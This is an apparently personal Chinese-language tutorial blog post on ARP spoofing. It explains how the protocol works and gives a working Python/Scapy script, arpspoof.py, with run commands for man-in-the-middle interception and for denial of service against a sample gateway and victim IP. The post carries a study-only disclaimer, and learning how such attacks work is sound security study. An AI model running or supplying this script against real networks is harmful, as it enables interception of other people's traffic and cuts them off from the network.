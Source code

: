 ```yaml
---
title: "Python 进行 ARP 欺骗"
date: 2021-06-09T18:27:39+08:00
archives: 
    - 2021
tags:
    - Python
    - 网络
image: /images/cyber-security.jpg
draft: false
---
```


> 声明：本文所用的脚本仅限于学习测试目的，在使用中造成的一切后果与作者无关，后果自负。

ARP (Address Resolution Protocol) 即地址解析协议，是一种将 IP 地址转化成物理地址的协议。我们常用的以太网是通过 MAC 地址进行通信的，所以在网络链路上传送数据帧时，最终是使用硬件地址的。

一个典型的 ARP 流程如下表所示，这里为了叙述方便，硬件地址做了简化处理。

| 源地址      | 目的地址     | 内容                                    |
|----------|----------|---------------------------------------|
| 12:34:56 | ff:ff:ff | Who has 192.168.1.2? Tell 192.168.1.3 |
| 78:ab:cd | 12:34:56 | 192.168.1.2 is at 78:ab:cd            |

大致流程就是`12:34:56`发送一个广播，问谁有某个 IP 地址，当对方收到这个广播时，如果自己的 IP 和广播里问的 IP 是一致的，就发送一个回复给提问者。这样提问者就建立了 IP 地址和物理地址的对应关系。

那如果对方不守信呢，明明自己没有这个 IP，还是坚持回复这个 IP 是自己，欺骗了提问者。这时提问者就会把数据包发给其他人，相当于数据包被人偷了！

没错，ARP 欺骗就是这个原理，可以用来做中间人攻击和拒绝服务攻击。下面分别实验一下两种情况。

网关 IP：10.1.45.254

受害者 IP：10.1.45.2

## 中间人攻击

欺骗受害者网关在我们这里，受害者就会把数据包发给我们，我们再代为转发给真正的网关，相当于做了一个中间人，这时我们可以捕获到受害者的通信数据包。

```python
# arpspoof.py
import sys
from scapy.layers.l2 import Ether, ARP, sendp
from scapy.layers.l2 import getmacbyip

if __name__ == '__main__':
    if len(sys.argv) < 3:
        sys.exit(1)
    target_ip = sys.argv[1]
    host = sys.argv[2]
    target_mac = getmacbyip(target_ip)
    host_mac = getmacbyip(host)
    pkt = Ether() / ARP(op='is-at', psrc=host, pdst=target_ip, hwdst=target_mac)
    print(pkt.show())
    sendp(pkt, inter=2, loop=1)
    print('Cleaning...')
    sendp(Ether(src=host_mac) / ARP(op='is-at', psrc=host, hwsrc=host_mac, pdst=target_ip, hwdst=target_mac), inter=1, count=3)
```
注意这里没有开启 IP 转发，具体如何开启请根据系统自行解决。

```shell
python3 arpspoof.py 10.1.45.2 10.1.45.254
```

## 拒绝服务攻击

欺骗网关受害者在我们这里，网关就会把受害者的数据包发给我们，我们再把它丢弃。这时受害者就无法正常收到回复包，也就无法正常完成通信了。其实中间人攻击也可以做拒绝服务，只需要不转发数据包就好了。

脚本还是一样，只需要把输入的两个参数对调即可。

```shell
python3 arpspoof.py 10.1.45.254 10.1.45.2
```
